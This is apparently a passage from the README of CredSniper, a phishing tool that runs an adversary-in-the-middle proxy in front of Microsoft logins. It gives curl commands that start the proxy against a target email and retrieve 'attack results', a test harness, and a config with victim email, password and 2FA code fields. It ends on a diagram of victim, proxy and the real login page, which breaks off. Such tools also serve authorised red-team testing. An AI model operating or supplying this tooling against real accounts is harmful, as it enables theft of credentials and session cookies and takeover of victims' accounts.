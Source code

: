 ### API Endpoints

CredSniper provides API endpoints for AiTM management:

```bash
# Check AiTM proxy status
curl "http://localhost/aitm/status?api_token=YOUR_TOKEN"

# Start AiTM proxy manually
curl -X POST "http://localhost/aitm/start?email=target@company.com&api_token=YOUR_TOKEN"

# Get attack results
curl "http://localhost/aitm/results?api_token=YOUR_TOKEN"
```

### Testing

Use the built-in test harness to validate functionality:

```bash
# Run all tests
python3 core/test_harness.py --save-artifacts --output test_results.json

# Test specific components
python3 core/test_harness.py --no-selenium --port 8081

# Custom test configuration
python3 core/test_harness.py --config test_config.json
```

Example `test_config.json`:
```json
{
  "test_email": "victim@targetcompany.com",
  "test_password": "TestPassword123!",
  "test_2fa": "123456",
  "proxy_port": 8082,
  "timeout": 45,
  "validate_cookies": true,
  "save_artifacts": true,
  "test_selenium_fallback": true
}
```

## Architecture Deep Dive

### AiTM Proxy Components

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│                 │    │                 │    │                 │
│     Victim      │───▶│   AiTM Proxy    │───▶│   Microsoft     │
│   (Browser)     │    │  (mitmproxy)    │    │  (Real Login)   │
│                 │    │                 │    │                 │
└─────────────────┘    └─────────────────┘    └─────────────────┘
                                │
                                ▼
                       ┌─────────────────┐
                       │                 │
                       │   CredSniper    │
                       │   (Analysis)    │
                       │                 │
                       └─────────────────┘
                                │
                                ▼
                       ┌─────────────────┐
```